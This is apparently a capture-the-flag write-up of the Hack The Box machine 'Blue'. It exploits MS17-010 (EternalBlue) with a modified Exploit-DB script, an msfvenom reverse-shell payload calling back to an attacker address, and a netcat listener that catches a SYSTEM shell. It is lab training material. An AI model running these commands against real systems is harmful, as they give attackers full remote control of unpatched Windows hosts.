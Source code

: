 ```yaml
---
permalink: /posts/HTB/Blue
title:  "HTB Blue"
author: Luc Kolen
description: "Blue is an easy Windows machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB-Easy
  - SMB
  - MS17-010
---
```

# 10.10.10.40 - Blue

- [10.10.10.40 - Blue](#10101040---blue)
  - [Open ports](#open-ports)
  - [SMB Vulnerability](#smb-vulnerability)
    - [Changing the exploit script](#changing-the-exploit-script)
  - [TL;DR](#tldr)

## Open ports

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.40
```

|Port|Service|
|---|---|
tcp/135|msrpc
tcp/139|netbios-ssn
tcp/445|microsoft-ds
tcp/49152|msrpc
tcp/49153|msrpc
tcp/49154|msrpc
tcp/49155|msrpc
tcp/49156|msrpc
tcp/49157|msrpc

## SMB Vulnerability

```bash
luc@kali:~/Documents/Cyber-security/HTB/Blue$ sudo nmap --script=*smb-vuln* -p139,445 10.10.10.40
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-10 15:59 CEST
Nmap scan report for 10.10.10.40
Host is up (0.013s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 13.36 seconds
```

This machine is vulnerable to `MS17-010` (also known as `EternalBlue`).

### Changing the exploit script

[Exploit-db 42315](https://www.exploit-db.com/exploits/42315) is a Python script that will exploit MS17-010. We do need to make some changes to it.

This script needs an username and password that can connect to SMB.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Blue$ smbmap -u guest -H 10.10.10.40
[+] IP: 10.10.10.40:445 Name: 10.10.10.40
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Share                                                   READ ONLY
        Users                                                   READ ONLY
```

Guest access is allowed so we can use those credentials.

```python
USERNAME = 'guest'
PASSWORD = ''
```

We'll need a payload to be executed, for this we'll use `MSFvenom` to generate a Windows executable.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Blue$ msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.16 LPORT=443 > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

The default payload that will be executed is defined in the `smb_pwn` function.

```python
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()

    print('creating file c:\\pwned.txt on the target')
    tid2 = smbConn.connectTree('C$')
    fid2 = smbConn.createFile(tid2, '/pwned.txt')
    smbConn.closeFile(tid2, fid2)
    smbConn.disconnectTree(tid2)
```

We'll update this payload to make it upload our executable and run it.

```python
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        smb_send_file(smbConn, r'/home/luc/Documents/Cyber-security/HTB/Blue/shell.exe', 'C', '/shell.exe')
        service_exec(conn, r'cmd /c c://shell.exe')
```

```bash
luc@kali:~/Documents/Cyber-security/HTB/Blue$ python 42315.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa80039e4670
SESSION: 0xfffff8a0022246a0
FLINK: 0xfffff8a008379048
InParam: 0xfffff8a0027d315c
MID: 0xd02
unexpected alignment, diff: 0x5ba5048
leak failed... try again
CONNECTION: 0xfffffa80039e4670
SESSION: 0xfffff8a0022246a0
FLINK: 0xfffff8a0027e5088
InParam: 0xfffff8a0027df15c
MID: 0xd07
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Opening SVCManager on 10.10.10.40.....
Creating service LgbE.....
Starting service LgbE.....
The NETBIOS connection with the remote host timed out.
Removing service LgbE.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```

```bash
luc@kali:~/Documents/Cyber-security/HTB/Blue$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.40.
Ncat: Connection from 10.10.10.40:49164.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>cd ../../Users/Administrator/Desktop
C:\Users\Administrator\Desktop>type root.txt
ff548eb7************************
C:\Users\Administrator\Desktop>cd ../../haris/Desktop
C:\Users\haris\Desktop>type user.txt
4c546aea************************
```

## TL;DR

- Machine is vulnerable to MS17-010, using this exploit gives nt authority\system access
